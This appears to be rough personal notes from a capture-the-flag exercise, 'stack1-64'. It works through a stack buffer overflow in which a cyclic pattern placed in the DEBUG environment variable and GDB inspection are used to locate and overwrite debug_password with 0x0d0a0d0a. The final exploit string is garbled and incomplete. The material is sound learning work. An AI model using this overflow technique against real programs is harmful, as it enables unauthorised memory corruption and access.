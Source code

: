 # stack1-64

file in dir:
`/problems/stack1r-64_6_f8971f22ac04a7dad46dfe8bde78b565`

## Steps

> code in ./stack1.c
> Using ENV to overwrite debug_password and get debug value from file

1) exploiting an enviornment var
- `generator_mode = getenv("DEBUG")`
- thus, we need to set the DEBUG env variable as some sort of patterened text to figure out exactly where it is overflowing
  - export DEBUG=`pwn cyclic -n4 256`
- echo $DEBUG

`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac`

1) inital GDB

- `gdb stack1-64`
- `b main`
- `r`
- next instruction until the buffer is coppied into a new variable with strcpy
- `p &debug_password`
  - `0x7fffffffe32c`
  - `x/s 0x7fffffffe32c`
    - **caab**
  - find the above string in the dump

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab**caab**daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

2) new exploit string

- replace `caab` with `0x0d0a0d0a` (what the debug pswd is set to in code)

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\n\
n 0x0d 0a0d0a

p &generator_mode
$3 = (char **) 0x7fffffffe2d8
gef➤  p &debug_password
$4 = (volatile int *) 0x7fffffffe2cc

12 bytes away